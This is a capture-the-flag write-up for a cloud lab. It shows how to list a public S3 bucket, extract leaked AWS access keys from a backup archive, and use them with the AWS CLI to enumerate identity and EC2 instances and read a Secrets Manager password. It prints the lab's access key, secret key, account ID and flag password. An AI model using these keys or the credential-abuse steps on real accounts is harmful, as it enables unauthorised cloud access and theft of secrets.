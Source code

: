 # [Day17] *Cloud* Elf Leaks 

-------------

> Author Razvan Bielz \
> Date: 14 Jan 2022

--------------

## Info

`IP: AWS Bucket`

### Accounts

> 'S3_UPLOADS_BUCKET', 'images.bestfestivalcompany.com'  
> 'S3_UPLOADS_KEY', 'AKIAQI52OJVCPZXFYAOI'  
> 'S3_UPLOADS_SECRET', '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'  
> 'S3_UPLOADS_REGION', 'us-east-1'  
> 'Account ID', '019181489476'
> "UserId": "AIDAQI52OJVCFHT3E73BO"  
> "Account": "019181489476"  
> "Arn": "arn:aws:iam::019181489476:user/ElfMcHR@bfc.com"  

--------------

## Steps

1. Public bucket, test:  
  `curl http://irs-form-990.s3.amazonaws.com/`
2. List contents of bucket:  
  `aws s3 ls s3://irs-form-990/ --no-sign-request`
3. Downloading content with curl or AWS CLI:  
  `curl http://irs-form-990.s3.amazonaws.com/201101319349101615_public.xml`  
  `aws s3 cp s3://irs-form-990/201101319349101615_public.xml . --no-sign-request`
4. Find the flag.txt file in the bucket
5. Find wp-backup.zip and list the AWS Access Key ID:  
  `cat * | grep AKIA`
6. Find who owns the acces key:  
   - First create a profile: `aws configure --profile hr`  
   - Get the id:  
`aws sts get-access-key-info --access-key-id AKIAQI52OJVCPZXFYAOI --profile hr`
7. Get the Username:  
  `aws sts get-caller-identity --profile hr`
8. Get the EC2 Instances for the User:  
  `aws ec2 describe-instances --output text --profile hr`
9. Find the secret manager:  
  `aws secretsmanager list-secrets --profile hr`  
  `aws secretsmanager get-secret-value --secret-id HR-Password --profile hr`  
10. The secret is in another region:  
  `aws secretsmanager get-secret-value --secret-id HR-Password --profile hr --region eu-north-1`

--------------

## Flags

`AKIAQI52OJVCPZXFYAOI`  
`Winter2021!`

--------------

## What have we learned?

- AWS - Amazon S3 (Simple Storage Service) and AWS IAM (Identity and Access Management)
- AWS CLI
- When you find credentials to AWS, you can add them to your AWS Profile in the AWS CLI. For this, you use the command:  
`aws configure --profile PROFILENAME`
- Once you have configured a new profile with the new access keys, you can execute any command using this other set of credentials. For example, to list all the S3 Buckets in the AWS account you have found credentials for, try:  
`aws s3 ls --profile PROFILENAME`
- A few other common AWS reconnaissance techniques are:
  - Finding the Account ID belonging to an access key:  
`aws sts get-access-key-info --access-key-id AKIAEXAMPLE `
  - Determining the Username the access key you're using belongs to  
`aws sts get-caller-identity --profile PROFILENAME`
  - Listing all the EC2 instances running in an account  
`aws ec2 describe-instances --output text --profile PROFILENAME`
  - Listing all the EC2 instances running in an account in a different region  
`aws ec2 describe-instances --output text --region us-east-1 --profile PROFILENAME`
- AWS ARNs:
  - An Amazon ARN is their way of generating a unique identifier for all resources in the AWS Cloud. It consists of multiple strings separated by colons.
  - The format is:  
`arn:aws:<service>:<region>:<account_id>:<resource_type>/<resource_name>`